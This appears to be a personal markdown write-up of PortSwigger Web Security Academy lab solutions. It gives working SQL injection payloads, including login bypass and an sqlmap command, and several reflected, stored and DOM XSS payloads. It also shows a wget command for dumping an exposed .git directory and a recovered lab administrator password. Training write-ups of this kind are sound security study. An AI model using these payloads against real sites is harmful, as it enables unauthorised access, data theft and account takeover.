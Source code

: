 # Mystery lab challenge

[https://portswigger.net/web-security/all-labs](https://portswigger.net/web-security/all-labs)

# Table of Contents

- [Mystery lab challenge](#mystery-lab-challenge)
- [Table of Contents](#table-of-contents)
- [SQL injection](#sql-injection)
  - [Lab: SQL injection vulnerability in WHERE clause allowing retrieval of hidden data](#lab-sql-injection-vulnerability-in-where-clause-allowing-retrieval-of-hidden-data)
    - [Check with sqlmap](#check-with-sqlmap)
    - [Solution:](#solution)
  - [SQL injection vulnerability allowing login bypass](#sql-injection-vulnerability-allowing-login-bypass)
    - [Solution](#solution)
- [Cross-site scripting](#cross-site-scripting)
  - [Lab: Reflected XSS into HTML context with nothing encoded](#lab-reflected-xss-into-html-context-with-nothing-encoded)
    - [Solution](#solution)
  - [Lab: Stored XSS into HTML context with nothing encoded](#lab-stored-xss-into-html-context-with-nothing-encoded)
    - [Solution](#solution)
  - [Lab: DOM XSS in document.write sink using source location.search](#lab-dom-xss-in-document-write-sink-using-source-location-search)
    - [Solution](#solution)
  - [Lab: DOM XSS in innerHTML sink using source location.search](#lab-dom-xss-in-innerhtml-sink-using-source-location-search)
    - [Solution](#solution)
  - [Lab: DOM XSS in jQuery anchor href attribute sink using location.search source](#lab-dom-xss-in-jquery-anchor-href-attribute-sink-using-location-search-source)
    - [Solution](#solution)
  - [Lab: DOM XSS in jQuery selector sink using a hashchange event](#lab-dom-xss-in-jquery-selector-sink-using-a-hashchange-event)
    - [Solution](#solution)
- [Information disclosure](#information-disclosure)
  - [Lab: Information disclosure in version control history](#lab-information-disclosure-in-version-control-history)
      - [Download Git Repo](#download-git-repo)
      - [Browse .git repo with command line `git` client](#browse-git-repo-with-command-line-git-client)



# SQL injection

## Lab: SQL injection vulnerability in WHERE clause allowing retrieval of hidden data

> This lab contains an SQL injection vulnerability in the product category filter. When the user selects a category, the application carries out an SQL query like the following:
> 
> SELECT * FROM products WHERE category = 'Gifts' AND released = 1
> To solve the lab, perform an SQL injection attack that causes the application to display details of all products in any category, both released and unreleased.

### Check with sqlmap

`sqlmap -u https://ac2c1fc91f0b7373c08708640007008f.web-security-academy.net/filter\?category\=Gifts`

![](assets/16512131974263.png)
![](assets/16512132501893.png)

### Solution:
> https://ac3a1f901e2f8e40c0277bda00020033.web-security-academy.net/filter?category=Pets'+OR+1=1--




## SQL injection vulnerability allowing login bypass

> This lab contains an SQL injection vulnerability in the login function.
> 
> To solve the lab, perform an SQL injection attack that logs in to the application as the administrator user.


### Solution

%' OR '0'='0

![](assets/16512172833793.png)


# Cross-site scripting

## Lab: Reflected XSS into HTML context with nothing encoded

> This lab contains a simple reflected cross-site scripting vulnerability in the search functionality.
> 
> To solve the lab, perform a cross-site scripting attack that calls the alert function.

### Solution
Put this into search field:
`<script>alert("hacked")</script>`

## Lab: Stored XSS into HTML context with nothing encoded

> This lab contains a stored cross-site scripting vulnerability in the comment functionality.
> 
> To solve this lab, submit a comment that calls the alert function when the blog post is viewed.


### Solution

![](assets/16512197656509.png)

![](assets/16512197783830.png)

## Lab: DOM XSS in document.write sink using source location.search


> This lab contains a DOM-based cross-site scripting vulnerability in the search query tracking functionality. It uses the JavaScript document.write function, which writes data out to the page. The document.write function is called with data from location.search, which you can control using the website URL.
> 
> To solve this lab, perform a cross-site scripting attack that calls the alert function.

### Solution

`"><script>alert("hacked")</script>`

![](assets/16512211489269.png)

## Lab: DOM XSS in innerHTML sink using source location.search

> This lab contains a DOM-based cross-site scripting vulnerability in the search blog functionality. It uses an innerHTML assignment, which changes the HTML contents of a div element, using data from location.search.
> 
> To solve this lab, perform a cross-site scripting attack that calls the alert function.

### Solution

`'<iframe src="javascript:alert('hacked')"></iframe>`


## Lab: DOM XSS in jQuery anchor href attribute sink using location.search source

> This lab contains a DOM-based cross-site scripting vulnerability in the submit feedback page. It uses the jQuery library's $ selector function to find an anchor element, and changes its href attribute using data from location.search.
> 
> To solve this lab, make the "back" link alert document.cookie.

### Solution

`https://ac9e1f261f8059e7c0480f4600a40022.web-security-academy.net/feedback?returnPath=javascript:alert(%27hacked%27)`

## Lab: DOM XSS in jQuery selector sink using a hashchange event

> This lab contains a DOM-based cross-site scripting vulnerability on the home page. It uses jQuery's $() selector function to auto-scroll to a given post, whose title is passed via the location.hash property.
> 
> To solve the lab, deliver an exploit to the victim that calls the print() function in their browser.

### Solution

![Screenshot 2022-04-29 at 17.08.53](assets/Screenshot%202022-04-29%20at%2017.08.53.png)


`<iframe width="100%" height="100%" src="https://ac5f1f911e4329f7c0382ff2007200c0.web-security-academy.net//#" onload="this.src+='<img src=/ onerror=print()>'"></iframe>`

![](assets/16512270029293.png)




# Information disclosure


## Lab: Information disclosure in version control history

> This lab discloses sensitive information via its version control history. To solve the lab, obtain the password for the administrator user then log in and delete Carlos's account.

#### Download Git Repo
wget -r https://acfe1f7c1e358e5ec0836b3d0033001e.web-security-academy.net/.git/

#### Browse .git repo with command line `git` client

![](assets/16512107837482.png)

https://acfe1f7c1e358e5ec0836b3d0033001e.web-security-academy.net/my-account
\
User: administrator
\
Password: eoj2zssgznqxoo2p3icm


